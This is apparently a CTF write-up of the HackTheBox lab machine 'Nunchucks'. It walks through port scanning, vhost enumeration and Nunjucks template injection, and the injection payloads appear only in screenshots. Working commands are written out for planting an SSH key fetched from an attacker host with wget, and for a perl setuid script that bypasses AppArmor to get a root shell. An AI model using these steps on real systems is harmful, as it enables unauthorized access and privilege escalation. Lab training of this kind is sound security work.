 ```yaml
---
title: Nunchucks
published: true
layout: post
---
```


<br />

---------------
Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI) leading to an AppArmor bug which disregards the binary's AppArmor profile while executing scripts that include the shebang of the profiled application. 
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/1JX_bPG7aBs?si=qDavXCF4grxA5Fij" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.11.122 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.122 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There are **3 open ports**:
+ **22/tcp**
+ **80/tcp**
+ **443/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.11 -p 22,80,443 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```
<br />

These services are**:
+ **22/tcp OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)**
+ **80/tcp nginx 1.18.0 ((Ubuntu))**
+ **443/tcp nginx 1.18.0 ((Ubuntu))**

<br />

We also find out a **hostname**, so let's add it:

```bash
echo "10.10.11.122 nunchucks.htb" | sudo tee --append /etc/hosts
```
<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.29 -p 22,80,443 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```
<br />

These scans didn't return any relevant information.
<br />

------
<br />
### Foothold

At first we found a website that didn't lead us to anything, so I started performing some enumeration:

```bash
gobuster vhost -u https://nunchucks.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -o gobuster_subdomains_443.txt -t 25 --append-domain -r -k
```

![](/assets/Nunchucks/1.png)
<br />
<br />

There is a **subdomain**, let's add it to our **/etc/hosts** file and navigate this website:<br />
![](/assets/Nunchucks/2.png)
<br />
<br />

This website don't reveal much information, but has an **email field** that **return us our input**, so we can try to leverage it, to my mind came XSS, SSTI or maybe SSRF. XSS wouldn't lead to anything, there is an specific cookie to prevent request forgery attacks, so there's only one possibility, so let's test for it using this cheatsheet:<br />
![](/assets/Nunchucks/3.png)
<br />
<br />

However, there are **client-side protections**, but we can use **BurpSuite** to bypass them:<br />
![](/assets/Nunchucks/4.png)
<br />
<br />

Great!!! We can clearly see that is vulnerable, let's try to **narrow down the scope**:<br />
![](/assets/Nunchucks/5.png)
<br />
<br />

Great!! So it may be **Jinja2** or **Twig**, however, to be sure I used this [website](https://cheatsheet.hackmanit.de/template-injection-table/):<br />
![](/assets/Nunchucks/6.png)
<br />
<br />

However, **no template engine matches the criteria**, so I continued enumerating until I find that the website is using **Express framework**:<br />
![](/assets/Nunchucks/7.png)
<br />
<br />

Reviewing its **documentation**, there is a **template engin**e that nearly matches our machine name:<br />
![](/assets/Nunchucks/8.png)
<br />
<br />

Searching for **SSTI exploits** for **Nunjucks engine** I found this one:<br />
![](/assets/Nunchucks/9.png)
<br />
<br />

Let's try this exploit:<br />
![](/assets/Nunchucks/10.png)
<br />
<br />

It worked!!! Now, to get a shell on the machine, I uploaded an **authorized_keys file** to the machine with my **public key**, these are the command:

```bash
mkdir /home/david/.ssh
wget http://10.10.16.7/authorized_keys -O /home/david/.ssh/authorized_keys
chmod 700 /home/david/.ssh
chmod 640 /home/david/.ssh/authorized_keys
```
<br />

Now we can use SSH to connect to the machine:

```bash
ssh david@nunchucks.htb
cat user.txt
```

![](/assets/Nunchucks/11.png)
<br />
<br />

------
<br />
### Privilege Escalation

Enumerating the machine I found that **capabilities** are enabled for the **perl executable**:

```bash
getcap -r / 2>/dev/null
```

![](/assets/Nunchucks/12.png)
<br />
<br />

However, trying to leverage this capability didn't work:

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```
<br />

This might indicate that **AppArmor** is preventing us from leveraging this capability, we can confirm this by listing the **AppArmor rules directory**:

```bash
ls -l /etc/apparmor.d
```

![](/assets/Nunchucks/13.png)
<br />
<br />

There is a configuration file for the perl executable, let's see what it does:<br />
![](/assets/Nunchucks/14.png)
<br />
<br />

This file grants the **SETUID capability**, denies access to anything under **/root/** and to the **/etc/shadow file**, also limits the use of this capability to the **executables listed** there. However, there is a [bug](https://bugs.launchpad.net/apparmor/+bug/1911431) in AppArmor that can be used to bypass these limitations, it's as simple as creating a **perl script**, but **instead of calling it using the executable**, just execute the file, which should contain a **shebang**:

```perl
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);

system("/bin/bash")
```
<br />

Now just execute the file:

```bash
chmod +x privesc.pl
./privesc.pl
```

![](/assets/Nunchucks/15.png)
<br />
<br />
